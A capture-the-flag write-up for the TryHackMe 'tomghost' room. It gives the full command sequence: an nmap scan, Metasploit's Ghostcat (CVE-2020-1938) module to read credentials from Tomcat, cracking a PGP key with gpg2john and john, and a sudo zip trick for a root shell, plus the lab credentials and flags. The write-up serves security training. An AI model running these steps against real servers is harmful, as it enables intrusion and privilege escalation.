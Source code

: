 # tomghost - Easy

```shell
nmap -T4 -p- -A -v 10.10.186.74

msfconsole -q

search CVE-2020-1938
#ghostcat

use auxiliary/admin/http/tomcat_ghostcat

options

set RHOSTS 10.10.186.74

run

#use creds from exploit
ssh skyfuck@10.10.186.74

ls -la

#in attacker machine
scp -r skyfuck@10.10.186.74:/home/skyfuck/tryhackme.asc /home/sv/

gpg2john tryhackme.asc > asc_hash

john --wordlist=/usr/share/wordlists/rockyou.txt asc_hash
#we get passphrase

gpg --import tryhackme.asc

gpg --decrypt credential.pgp
#gives SSH creds for merlin

ssh merlin@10.10.186.74

sudo -l
#we can run zip as root

#GTFObins exploit
TF=$(mktemp -u)

sudo /usr/bin/zip $TF /etc/hosts -T -TT 'sh #'
#we get root shell
```

* Open ports & services:

  * 22 - ssh - OpenSSH 7.2p2 (Ubuntu)
  * 53 - tcpwrapped
  * 8009 - ajp13 - Apache Jserv (Protocol v1.3)
  * 8080 - http - Apache Tomcat 9.0.30

* Checking the webpage on port 8080, we can confirm that it is using Apache Tomcat/9.0.30

* We can search for exploits related to this version on ExploitDB and Metasploit.

* For 9.0.30, we have the ghostcat exploit, and it is available in Metasploit as well.

* Now, this exploit allows us to read files which we do not have access to, and in this case, the filename by default is /WEB-INF/web.xml

* When we run the exploit, we get the contents of this file; it contains the creds skyfuck:8730281lkjlkjdqlksalks

* We can use this creds to log into SSH; user flag can be found in merlin's home directory.

* We have two files - credential.pgp and tryhackme.asc - transfer both files to attacker machine.

* We can use gpg2john to crack the .asc file; we get the passphrase 'alexandru'

* With the help of this passphrase, we can import key and decrypt the pgp file to get the creds merlin:asuyusdoiuqoilkda312j31k2j123j1g23g12k3g12kj3gk12jg3k12j3kj123j

* Logging into SSH as merlin, we can check sudo permissions; zip binary can be run as root.

* Using the exploit from GTFObins, we can misuse this and get root shell.

```markdown
1. Compromise this machine and obtain user.txt - THM{GhostCat_1s_so_cr4sy}

2. Escalate privileges and obtain root.txt - THM{Z1P_1S_FAKE}
```
